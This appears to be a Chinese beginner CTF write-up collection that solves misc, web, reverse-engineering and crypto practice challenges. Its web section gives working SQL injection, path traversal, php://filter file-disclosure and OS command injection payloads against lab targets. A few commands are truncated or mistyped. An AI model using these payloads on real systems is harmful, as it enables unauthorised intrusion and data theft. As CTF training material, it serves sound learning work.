# Misc
## 01金三胖
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=1b398a3e-2f59-4034-bf03-8c404e28d793)
下载附件得到一份GIF文件，打开GIF文件看到中间会闪过疑似flag，于是分离GIF
```Bash
sudo apt install imagemagick
convert aaa.gif frame_%03d.png
```

得到flag

----
## 02二维码
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=7a44e5a1-beea-4663-9b23-ebe1baf38765)
先用QRCode扫码得到

直接扫描并没有得到flag
```Bash
 strings QR_code.png
```

于是binwalk提取得到`1D7`压缩包，尝试解压但是需要密码

压缩包中的文件为`4number.txt`，所以密码很可能是4位纯数字，用fcrackzip爆破
```Bash
fcrackzip -b -c 1 -l 4-4 -u 1D7.zip
```

接下来继续解压缩得到txt文件，进而得到flag


---
## 03N种方法解决
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=b797fb16-93d2-48c1-b624-9b0f21505f9d)
先检查文件类型
```Bash
file KEY.exe
```
得到结果说明它实际上是txt文本文件
接下来查看文件头
```Bash
head -c 100 KEY.exe
```

>文件类型：jpg图片  +   Base64编码的图片数据
```Bash
sed 's/^data:image\/[^;]*;base64,//' KEY.exe | base64 -d > key.png
```
解码得出一张二维码
但原二维码比较小且缺乏足够的白色边缘，需要放大并添加白边
```Bash
agick key.png -filter point -resize 800% \
```
再用扫码工具扫码


---
## 04大白
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=c99d060f-ba8b-4803-a23e-52b4b8a34b68)
打开图片发现只有上半截，于是修改宽高


---
## 05你竟然赶我走
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=84589c09-0bc0-4076-89cd-fa742175eece)
从文件中提取能直接显示的可读字符串
```Bash
strings biubiu.jpg
```
在输出中直接看到flag

---

# Web
## 06[极客大挑战 2019]Havefun
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=cb1461de-6e25-4bee-b0d4-12bc6106cb47)

网页会读取URL中名为`cat`的参数，当参数值等于dog时输出flag
于是在URL后面加上
```txt
?cat=dog
```


---
## 07[极客大挑战 2019]EasySQL
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=d4109092-2acc-4f56-a9c6-d75c230d501b)
打开题目后看到一个登陆页面，需要输入用户名和密码。
先随便输入，发现URL有变化
```txt
[check](https://91a88c5879123e7a80f3577f.http-ctf2.dasctf.com/check.php?username=1&password=1)
```
所以这道题目是直接将用户输入的用户名和密码直接拼接到SQL查询语句中，例如
```SQL
SELECT * FROM users WHERE username='$username' AND password='$password';
```
在用户名中输入单引号

页面出现SQL语法错误，说明输入的单引号被拼接进了SQL语句，因此存在SQL注入漏洞
### 构造Payload


### 原理分析
将输入内容带入后，SQL语句变成
```SQL
SELECT * FROM users
WHERE username='admin' or 1=1#'
AND password='1';
```
其中
```txt
admin'
```
用于提前闭合用户名外面的单引号
```txt
or 1=1
```
加入一个永远成立的条件，因为`1=1`始终为真
```txt
#
```
将后面的密码判断和多余的单引号全部注释掉

所以将判断条件变成
```txt
用户名是adimin或者1等于1
```
所以登陆成功，显示flag

---
## 08[HCTF 2018]WarmUp
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=0b1c4df1-92df-4818-b564-76bda414acfd)
查看源码，看到有文件`source.php`

于是访问source.php

代码中存在白名单
```PHP
$whitelist = [
    "source" => "source.php",
    "hint" => "hint.php"
];
```
说明程序允许访问`source.php`与`hint.php`
程序会接受`file`参数，
```PHP
$_REQUEST['file']
```
通过检查后执行
```PHP
include $_REQUEST['file'];
```
也就是将用户传入的文件夹包含进来，于是访问
```txt
/index.php?file=hint.php
```

尝试直接访问

因为ffffllllaaaagggg不在白名单中，所以无法访问
分析白名单检查漏洞
```PHP
$_page = mb_substr(
    $page,
    0,
    mb_strpos($page . '?', '?')
);

if (in_array($_page, $whitelist)) {
    return true;
}
```
这段代码会取出传入内容中第一个 `?` 前面的部分，然后判断它是否在白名单中。
于是构造payload
```txt
/index.php?file=hint.php?/../../../../../../ffffllllaaaagggg
```
程序检查时读取?前面的hint.php，读取通过
后面的`/../../../../../../`返回上级目录，最后读取`ffffllllaaaagggg`文件


---
## 09[ACTF2020 新生赛]Include
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=e5d73d5f-5971-46ad-8816-3aea17085aa3)
打开靶机地址，看到有个`tips`，点击进去

地址栏中看到
```txt
?file=flag.php
```
说明网页读取了一个file的参数，并用它加载文件

因为服务器会把`flag.php`当作程序执行，并不会显示源代码，但flag可能藏在注释中，所以直接访问并不会显示flag
### 使用 `php://filter`
将file后面的内容修改为
```txt
php://filter/read=convert.base64-encode/resource=flag.php
```

将显示出来的字符用Base64解密

### Payload含义
```txt
php://filter
```
表示使用PHP过滤协议
```txt
read=convert.base64-encode
```
读取文件时将内容转换为Base64
```txt
resource=flag.php
```
读取的目标文件是flag.php

---
## 10 [ACTF2020 新生赛]Exec
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=8bd37082-8e80-4ad3-a8d5-6a2a54b2450b)
打开靶机地址看到一个要求输入IP地址的画面，先输入
```txt
127.0.0.1
```

这一步确认网页确实在调用ping
在输入框中输入
```txt
127.0.0.1;ls
```

查看根目录
```txt
127.0.0.1;ls /
```

于是读取flag
```txt
127.0.0.1;cat /flag
```
出现了flag

---

# Reverse
## 11easyre
先检查文件
```Bash
file easyre.exe
```

说明是一个Windows可执行程序
检查可读字符串
```Bash
strings easyre.php | grep -i flag
```

找到了flag

---
## 12reverse1
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=3b44664c-8545-4674-8cb8-384e304e8140)
判断文件类型
```Bash
file reverse_1.exe
```
结果显示
```txt
PE32+ executable
x86-64
Windows console
```
也就是一个**64位Windows控制台程序**，看起来没有加壳，并且保留了调试信息
查看可疑字符串
```Bash
strings reverse_1.exe | grep -Ei "flag|input|right|wrong"
```
输出中并没有直接出线最终flag，所以要继续查看程序的判断逻辑
用**IDA**打开程序


双击main_0，进去后点击F5

看程序，程序会把字符串中的所有字母`o`替换成数字`0`
```txt
{hello_world}
    ↓
{hell0_w0rld}
```
程序随后读取输入并比较字符串
所以正确输入为
```txt
{hell0_w0rld}
```
所以flag：
```txt
flag{hell0_w0rld}
```

---
##  13reverse2
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=029842cc-7e49-4df7-9286-febb12be529f)
检查文件

Linux的ELF文件

先试这个，但显然不对

子进程中

将
```txt
i → 1
r → 1
```
所以子进程修改后的flag是
```txt
{hack1ng_fo1_fun}
```
在Kali中进行验证

### 最终提交
这类题通常提交子进程变换后的结果
```txt
flag{hack1ng_fo1_fun}
```

---

# Crypto
## 14看我回旋踢
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=b99a83ec-2b5a-4978-bfc4-81d4e2c26289)
附件给了字符串，结合题目提示“得到的flag请包上flag{}提交”猜测synt对应flag
```Python
#!/usr/bin/env python3
import sys

def rot13_keep_digits(text: str) -> str:
    """
    对文本进行 ROT13 解密（字母移位 13 位）。
    数字、标点等字符保持原样，不做任何转换。
    """
    result = []
    for char in text:
        if 'a' <= char <= 'z':
            # 小写字母 a..z 循环移 13 位
            result.append(chr((ord(char) - ord('a') + 13) % 26 + ord('a')))
        elif 'A' <= char <= 'Z':
            # 大写字母 A..Z 循环移 13 位
            result.append(chr((ord(char) - ord('A') + 13) % 26 + ord('A')))
        else:
            # 数字、空格、标点等保持原样
            result.append(char)
    return ''.join(result)

def main():
    ciphertext = sys.stdin.read()
    plaintext = rot13_keep_digits(ciphertext)
    sys.stdout.write(plaintext)

if __name__ == '__main__':
    main()
```


---
## 15Quoted-printable
```txt
=E9=82=A3=E4=BD=A0=E4=B9=9F=E5=BE=88=E6=A3=92=E5=93=A6
```
之前都不知道还有Quoted-printable编码😄


---
## 16变异凯撒
[CTF²](https://ctf2.dasctf.com/dashboard/practice/b9bbb32f-f186-458f-b90b-12440c0f6aea?tab=challenges&challenge=afb6516e-0648-4087-962f-f420396d2e06)
传统凯撒密码为固定移位，但是本题根据传统凯撒无法从`afZ_`解出`flag`

|密文字符|密文 ASCII|推测明文字符|明文 ASCII|差值（偏移量）|
|---|---|---|---|---|
|`a`|97|`f`|102|+5|
|`f`|102|`l`|108|+6|
|`Z`|90|`a`|97|+7|
|`_`|95|`g`|103|+8|
|`r`|114|`{`|123|+9|
所以可以推出解密规则

>对密文第 i 个字符（i 从 0 开始），将 ASCII 码加上 **(i + 5)**，即可得到明文字符。

```Python
cipher = "afZ_r9VYfScOeO_UL^RWUc"
plain = ""

for i in range(len(cipher)):
    offset = i + 5
    plain += chr(ord(cipher[i]) + offset)

print(plain)
```